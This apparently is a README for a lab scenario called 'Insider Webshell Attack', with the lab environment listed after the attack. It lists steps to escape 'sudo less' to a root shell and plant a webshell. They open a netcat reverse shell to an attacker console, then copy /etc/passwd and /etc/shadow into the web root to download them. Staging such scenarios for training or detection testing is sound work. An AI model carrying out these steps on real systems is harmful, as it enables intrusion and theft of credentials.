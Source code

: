 Insider Webshell Attack
=======================

The Attack
------------------
>1. Login with magnifier on ubuntu-web-pr
>2. Check Sudo Permissions - sudo -l
>3. Create file - touch lesser.txt
>4. Use less - sudo less lesser.txt
>5. Less Exploit - !/bin/sh
>6. Modify getevil.php with Malicious Code
>7. Web Browser to http://ubuntu-web-pr/getevil.php
>8. Web Browser to http://ubuntu-web-pr/evil.php
>9. From evil.php on ubuntu-web-pr Get Reverse Shell - See Reverse Shell Wget
>10. On Remote Attack Console Box Open NetCat Listeners 
>	- Terminal #1 - nc -nvlp 443
>11. Web Browser Tab #1 to http://<ubuntu-web-pr>/reverse-shell.php?ip=<consoleIP>&port=443
>12. On ubuntu-web-pr - whoami
>13. On ubuntu-web-pr - sudo -i
>14. On ubuntu-web-pr - whoami
>15. On ubuntu-web-pr - cp /etc/passwd /var/www/html
>16. On ubuntu-web-pr - cp /etc/shadow /var/www/html
>17. On ubuntu-web-pr - chown apache:apache /var/www/html/shadow
>18. On ubuntu-web-pr - chown apache:apache /var/www/html/passwd
>19. Web Browser to http://ubuntu-web-pr/passwd
>20. Web Browser to http://ubuntu-web-pr/shadow
>21. On ubuntu-web-pr - rm /var/www/html/passwd
>22. On ubuntu-web-pr - rm /var/www/html/shadow


Environment
-----------
**Two Web Servers:** Ubuntu 20.04.1
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
>Default Packages Needed: 
>	- cron
>	- rsync
>	- sudo
>	- less
>	Install Apache with PHP on Both Servers:
>	- sudo apt install php libapache2-mod-php
  
**Attacker Remote Console**
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
  
**Attacker Remote**
>Any machine with a webbrowser
